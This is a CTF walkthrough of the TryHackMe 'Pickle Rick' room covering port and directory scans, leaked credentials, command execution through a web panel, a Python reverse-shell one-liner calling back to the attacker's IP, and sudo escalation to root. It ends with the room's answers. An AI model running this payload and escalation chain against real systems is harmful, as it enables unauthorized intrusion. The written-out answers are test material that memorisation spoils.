




# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

[Pickle Rick](https://tryhackme.com/room/picklerick)

## Topic's

- Network Enumeration
- Web Enumeration
- Web Poking
- Cryptography
  - Base64
- Misconfigured Binaries

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Pickle Rick

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

```
kali@kali:~/CTFs/tryhackme/Pickle Rick$ sudo nmap -p- -sC -sS -sV -O 10.10.55.189
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-09 21:50 CEST
Nmap scan report for 10.10.55.189
Host is up (0.037s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d3:6b:3b:8e:b4:ce:9b:38:4c:81:31:bf:fe:a2:51:c9 (RSA)
|   256 ec:a2:05:76:e3:7b:29:68:34:b0:af:68:40:02:eb:55 (ECDSA)
|_  256 1e:be:c9:37:83:14:4f:10:53:ae:dc:7f:72:8a:53:72 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/9%OT=22%CT=1%CU=36534%PV=Y%DS=2%DC=I%G=Y%TM=5F80BF5
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=103%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST1
OS:1NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.72 seconds
```

1. Deploy the virtual machine on this task and explore the web application.

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>
```

```
kali@kali:~/CTFs/tryhackme/Pickle Rick$ gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.55.189/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.55.189/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/09 22:00:40 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/10/09 22:00:59 Finished
===============================================================
```

[http://10.10.55.189/robots.txt](http://10.10.55.189/robots.txt)

`Wubbalubbadubdub`

[http://10.10.55.189/login.php](http://10.10.55.189/login.php)

[http://10.10.55.189/portal.php](http://10.10.55.189/portal.php)







```html
<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
</head>
<body>
  <nav class="navbar navbar-inverse">
    <div class="container">
      <div class="navbar-header">
        <a class="navbar-brand" href="#">Rick Portal</a>
      </div>
      <ul class="nav navbar-nav">
        <li class="active"><a href="#">Commands</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Creatures</a></li>
        <li><a href="/denied.php">Potions</a></li>
        <li><a href="/denied.php">Beth Clone Notes</a></li>
      </ul>
    </div>
  </nav>

  <div class="container">
    <form name="input" action="" method="post">
      <h3>Command Panel</h3></br>
      <input type="text" class="form-control" name="command" placeholder="Commands"/></br>
      <input type="submit" value="Execute" class="btn btn-success" name="sub"/>
    </form>
    </br><pre>assets/jquery.min.js:/*!
assets/bootstrap.min.js:/*!
assets/bootstrap.min.js: * Bootstrap v3.4.0 (https://getbootstrap.com/)
assets/bootstrap.min.js: * Copyright 2011-2018 Twitter, Inc.
assets/bootstrap.min.js: * Licensed under the MIT license
assets/bootstrap.min.js: */
assets/bootstrap.min.css:/*!
assets/bootstrap.min.css: * Bootstrap v3.4.0 (https://getbootstrap.com/)
assets/bootstrap.min.css: * Copyright 2011-2018 Twitter, Inc.
assets/bootstrap.min.css: * Licensed under MIT (https://github.com/twbs/bootstrap/blob/master/LICENSE)
assets/bootstrap.min.css: *//*!
assets/bootstrap.min.css:/*# sourceMappingURL=bootstrap.min.css.map */
Binary file assets/rickandmorty.jpeg matches
Binary file assets/portal.jpg matches
Binary file assets/picklerick.gif matches
Binary file assets/fail.gif matches
denied.php:<?php
denied.php:session_start();
denied.php:if($_SESSION["login"] == false) {
denied.php:   header("Location: /login.php"); die();
denied.php:}
denied.php:?>
denied.php:<!DOCTYPE html>
denied.php:<html lang="en">
denied.php:<head>
denied.php:  <title>Rick is sup4r cool</title>
denied.php:  <meta charset="utf-8">
denied.php:  <meta name="viewport" content="width=device-width, initial-scale=1">
denied.php:  <link rel="stylesheet" href="assets/bootstrap.min.css">
denied.php:  <script src="assets/jquery.min.js"></script>
denied.php:  <script src="assets/bootstrap.min.js"></script>
denied.php:</head>
denied.php:<body>
denied.php:  <nav class="navbar navbar-inverse">
denied.php:    <div class="container">
denied.php:      <div class="navbar-header">
denied.php:        <a class="navbar-brand" href="/portal.php">Rick Portal</a>
denied.php:      </div>
denied.php:      <ul class="nav navbar-nav">
denied.php:        <li><a href="/portal.php">Commands</a></li>
denied.php:        <li><a href="/denied.php">Potions</a></li>
denied.php:        <li><a href="/denied.php">Creatures</a></li>
denied.php:        <li><a href="/denied.php">Potions</a></li>
denied.php:        <li><a href="/denied.php">Beth Clone Notes</a></li>
denied.php:      </ul>
denied.php:    </div>
denied.php:  </nav>
denied.php:  <div class="container">
denied.php:    Only the <b>REAL</b> rick can view this page..</br></br>
denied.php:  </div>
denied.php:</body>
denied.php:</html>
robots.txt:Wubbalubbadubdub
index.html:<!DOCTYPE html>
index.html:<html lang="en">
index.html:<head>
index.html:  <title>Rick is sup4r cool</title>
index.html:  <meta charset="utf-8">
index.html:  <meta name="viewport" content="width=device-width, initial-scale=1">
index.html:  <link rel="stylesheet" href="assets/bootstrap.min.css">
index.html:  <script src="assets/jquery.min.js"></script>
index.html:  <script src="assets/bootstrap.min.js"></script>
index.html:  <style>
index.html:  .jumbotron {
index.html:    background-image: url("assets/rickandmorty.jpeg");
index.html:    background-size: cover;
index.html:    height: 340px;
index.html:  }
index.html:  </style>
index.html:</head>
index.html:<body>
index.html:  <div class="container">
index.html:    <div class="jumbotron"></div>
index.html:    <h1>Help Morty!</h1></br>
index.html:    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
index.html:    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
index.html:    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
index.html:  </div>
index.html:  <!--
index.html:    Note to self, remember username!
index.html:    Username: R1ckRul3s
index.html:  -->
index.html:</body>
index.html:</html>
login.php:<?php
login.php:session_start();
login.php:$errorMsg = "";
login.php:$validUser = $_SESSION["login"] === true;
login.php:if(isset($_POST["sub"])) {
login.php:  $validUser = $_POST["username"] == "R1ckRul3s" && $_POST["password"] == "Wubbalubbadubdub";
login.php:  if(!$validUser) $errorMsg = "Invalid username or password.";
login.php:  else $_SESSION["login"] = true;
login.php:}
login.php:if($validUser) {
login.php:   header("Location: /portal.php"); die();
login.php:}
login.php:?>
login.php:<!DOCTYPE html>
login.php:<html lang="en">
login.php:<head>
login.php:  <title>Rick is sup4r cool</title>
login.php:  <meta charset="utf-8">
login.php:  <meta name="viewport" content="width=device-width, initial-scale=1">
login.php:  <link rel="stylesheet" href="assets/bootstrap.min.css">
login.php:  <script src="assets/jquery.min.js"></script>
login.php:  <script src="assets/bootstrap.min.js"></script>
login.php:</head>
login.php:<body>
login.php:  <div class="container">
login.php:  </br><h3>Portal Login Page</h3></br>
login.php:    <form name="input" action="" method="post">
login.php:      <label for="username">Username:</label><input type="text" class="form-control" value="<?= $_POST["username"] ?>" id="username" name="username" />
login.php:      <label for="password">Password:</label><input type="password" class="form-control" value="" id="password" name="password" />
login.php:      <?php
login.php:        if($errorMsg) { ?>
login.php:        </br><div class="alert alert-danger" role="alert">
login.php:          <?= $errorMsg ?>
login.php:        </div>
login.php:      <?php
login.php:        }
login.php:      ?>
login.php:    </br><input type="submit" value="Login" class="btn btn-success" name="sub"/>
login.php:    </form>
login.php:  </div>
login.php:</body>
login.php:</html>
Sup3rS3cretPickl3Ingred.txt:mr. meeseek hair
clue.txt:Look around the file system for the other ingredient.
portal.php:<?php
portal.php:session_start();
portal.php:if($_SESSION["login"] == false) {
portal.php:   header("Location: /login.php"); die();
portal.php:}
portal.php:?>
portal.php:<!DOCTYPE html>
portal.php:<html lang="en">
portal.php:<head>
portal.php:  <title>Rick is sup4r cool</title>
portal.php:  <meta charset="utf-8">
portal.php:  <meta name="viewport" content="width=device-width, initial-scale=1">
portal.php:  <link rel="stylesheet" href="assets/bootstrap.min.css">
portal.php:  <script src="assets/jquery.min.js"></script>
portal.php:  <script src="assets/bootstrap.min.js"></script>
portal.php:</head>
portal.php:<body>
portal.php:  <nav class="navbar navbar-inverse">
portal.php:    <div class="container">
portal.php:      <div class="navbar-header">
portal.php:        <a class="navbar-brand" href="#">Rick Portal</a>
portal.php:      </div>
portal.php:      <ul class="nav navbar-nav">
portal.php:        <li class="active"><a href="#">Commands</a></li>
portal.php:        <li><a href="/denied.php">Potions</a></li>
portal.php:        <li><a href="/denied.php">Creatures</a></li>
portal.php:        <li><a href="/denied.php">Potions</a></li>
portal.php:        <li><a href="/denied.php">Beth Clone Notes</a></li>
portal.php:      </ul>
portal.php:    </div>
portal.php:  </nav>
portal.php:  <div class="container">
portal.php:    <form name="input" action="" method="post">
portal.php:      <h3>Command Panel</h3></br>
portal.php:      <input type="text" class="form-control" name="command" placeholder="Commands"/></br>
portal.php:      <input type="submit" value="Execute" class="btn btn-success" name="sub"/>
portal.php:    </form>
portal.php:    <?php
portal.php:      function contains($str, array $arr)
portal.php:      {
portal.php:          foreach($arr as $a) {
portal.php:              if (stripos($str,$a) !== false) return true;
portal.php:          }
portal.php:          return false;
portal.php:      }
portal.php:      // Cant use cat
portal.php:      $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
portal.php:      if(isset($_POST["command"])) {
portal.php:        if(contains($_POST["command"], $cmds)) {
portal.php:          echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p>";
portal.php:        } else {
portal.php:          $output = shell_exec($_POST["command"]);
portal.php:          echo "</br><pre>$output</pre>";
portal.php:        }
portal.php:      }
portal.php:    ?>
portal.php:    <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
portal.php:  </div>
portal.php:</body>
portal.php:</html>
</pre>    <!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
  </div>
</body>
</html>
```

```
kali@kali:~/CTFs/tryhackme/Pickle Rick$ echo 'Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==' | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
base64: invalid input
base64: invalid input
rabbit hole
```



`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

```
kali@kali:~/CTFs/tryhackme/Pickle Rick$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.55.189] 57004
/bin/sh: 0: can't access tty; job control turned off
$ /bin/bash
whomai
/bin/bash: line 1: whomai: command not found
whoami
www-data
cd /home
pwd
/home
ls
rick
ubuntu
cd rick
ls
second ingredients
cat second ingredients
cat: second: No such file or directory
cat: ingredients: No such file or directory
cat second\ ingredients
1 jerry tear
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-55-189:/home/rick$ clear
clear
TERM environment variable not set.
www-data@ip-10-10-55-189:/home/rick$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-55-189.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-55-189.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-55-189:/home/rick$ sudo bash -p
sudo bash -p
root@ip-10-10-55-189:/home/rick# cd /root
cd /root
root@ip-10-10-55-189:~# ls
ls
3rd.txt  snap
root@ip-10-10-55-189:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-55-189:~#
```

2. What is the first ingredient Rick needs?

`mr. meeseek hair`

3. Whats the second ingredient Rick needs?

`1 jerry tear`

4. Whats the final ingredient Rick needs?

`fleeb juice`
